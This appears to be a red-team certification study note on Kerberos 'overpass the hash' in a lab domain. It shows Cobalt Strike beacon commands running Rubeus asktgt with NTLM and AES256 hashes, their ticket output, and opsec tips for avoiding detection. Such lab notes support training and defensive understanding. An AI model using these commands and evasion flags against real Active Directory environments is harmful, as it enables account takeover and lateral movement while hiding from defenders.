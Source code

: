 
Overpass the hash is a technique which allows us to request a new Kerberos TGT for a user, using their NTLM or AES hash.

Elevated privileges are required to obtain user hashes, but not to actually request a ticket.

## 🖊️ via Rubeus

1) Rubeus `asktgt` has us covered for this task.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /ntlm:59fc0f884922b4ce376051134c71e22c /nowrap

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 59fc0f884922b4ce376051134c71e22c
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jking'
[*] Using domain controller: 10.10.122.10:88

[09/01 10:24:04] [+] received output:
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFmj [...snip...] 5pbw==

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  jking
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/1/2022 2:23:59 PM
  EndTime                  :  9/2/2022 12:23:59 AM
  RenewTill                :  9/8/2022 2:23:59 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  NytFQCt4OMyeF+BjfPSrbw==
  ASREP (key)              :  59FC0F884922B4CE376051134C71E22C
```

This TGT can then be leveraged via [[Pass the Ticket]].

##### Using AES hash

1) To obtain a TGT encrypted using AES256 (0x12) use the user's AES256 hash instead.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /nowrap

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jking'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIFuj [...snip...] ljLmlv

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  jking
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/1/2022 2:54:36 PM
  EndTime                  :  9/2/2022 12:54:36 AM
  RenewTill                :  9/8/2022 2:54:36 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  BBLSeA9nnaNeYIcHqf787V0m5Znz1ednGMXh9V9aorE=
  ASREP (key)              :  4A8A74DAAD837AE09E9ECC8C2F1B89F960188CB934DB6D4BBEBADE8318AE57C6
```

### ⚠ Opsec

Using an NTLM hash results in a ticket encrypted using RC4 (0x17).  This is considered a legacy encryption type and therefore often stands out as anomalous in a modern Windows environment.

The asktgt command has two optional parameters that we can use to blend in a bit more.

If no `/domain` is specified, Rubeus uses the FQDN of the domain this computer is in.  Instead, we can force it to use the NetBIOS name with `/domain:DEV`.  There is also an `/opsec` flag which tells Rubeus to request the TGT in such a way that results in the Ticket Options being 0x40810010.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /domain:DEV /opsec /nowrap
```


### Properties
---
📆 created   {{11-02-2024}} 21:21
🏷️ tags: #redteam #crto #activedirectory 

---

